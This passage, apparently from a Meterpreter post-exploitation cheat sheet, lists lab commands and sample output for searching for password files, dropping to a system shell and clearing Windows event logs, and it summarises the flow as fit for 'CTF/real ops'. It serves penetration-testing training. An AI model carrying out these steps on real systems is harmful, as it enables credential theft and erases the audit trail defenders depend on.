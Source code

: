     → Hashes can be cracked offline or passed for lateral movement.
    

---

5. **Search for Sensitive Files**
    
    ```bash
    meterpreter > search -f *passwords*.txt
    Found: C:\Users\victim\Desktop\passwords.txt
    ```
    
    → Look for config files, documents, credentials.
    

---

6. **Spawn a Shell**
    
    ```bash
    meterpreter > shell
    C:\Users\victim> whoami
    win-lab\victim
    ```
    
    → Drops into system command shell for native commands.
    

---

7. **Cover Tracks**
    
    ```bash
    meterpreter > clearev
    ```
    
    → Clear Windows event logs after finishing.
    

---

✅ **Post-exploitation flow in CTF/real ops** →  
`getuid → ps → migrate → sysinfo → hashdump → search → shell → cover tracks`

---
